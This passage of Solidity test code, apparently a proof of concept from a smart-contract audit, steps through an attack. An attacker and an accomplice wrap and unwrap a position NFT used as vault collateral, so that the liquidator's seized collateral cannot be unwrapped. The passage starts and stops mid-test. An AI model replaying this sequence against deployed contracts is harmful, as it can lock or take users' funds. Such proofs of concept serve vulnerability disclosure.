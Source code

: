 ```solidity
        accomplice,
        wrapper.FULL_AMOUNT(),
        bytes("")
    );
    wrapper.unwrap(
        accomplice,
        tokenId2,
        borrower
    );
    startHoax(borrower);
    wrapper.underlying().approve(address(mintPositionHelper), tokenId2);
    increasePosition(poolKey, tokenId2, 1000, type(uint96).max, type(uint96).max, borrower);
    wrapper.underlying().approve(address(wrapper), tokenId2);
    wrapper.wrap(tokenId2, accomplice);
    startHoax(accomplice);
    wrapper.enableTokenIdAsCollateral(tokenId2);
    wrapper.unwrap(
        accomplice,
        tokenId2,
        accomplice,
        wrapper.FULL_AMOUNT() * 99 / 100,
        bytes("")
    );

    // 9. liquidator fully liquidates attacker
    startHoax(liquidator);
    evc.enableCollateral(liquidator, address(wrapper));
    evc.enableController(liquidator, address(eVault));
    wrapper.enableTokenIdAsCollateral(tokenId1);
    eVault.liquidate(attacker, address(wrapper), maxRepay, 0);

    // 10. liquidator repays the debt
    deal(token1, liquidator, 1_000_000_000 * unit1);
    IERC20(token1).approve(address(eVault), type(uint256).max);
    eVault.repay(type(uint256).max, liquidator);
    evc.disableCollateral(liquidator, address(wrapper));
    eVault.disableController();

    // 11. attempting to unwrap even 1% of the position fails
    uint256 balanceToUnwrap = wrapper.balanceOf(liquidator, tokenId1) / 100;

    vm.expectRevert(
        abi.encodeWithSelector(
            CustomRevert.WrappedError.selector,
            liquidator,
            bytes4(0),
            bytes(""),
            abi.encodePacked(bytes4(keccak256("NativeTransferFailed()")))
        )
    );
    wrapper.unwrap(
        liquidator,
        tokenId1,
        liquidator,
        balanceToUnwrap,
        bytes("")
    );

    // 12. full unwrap is blocked by accomplice's non-zero balance
    vm.expectRevert(
        abi.encodeWithSelector(
            bytes4(keccak256("ERC6909InsufficientBalance(address,uint256,uint256,uint256)")),
            liquidator,
```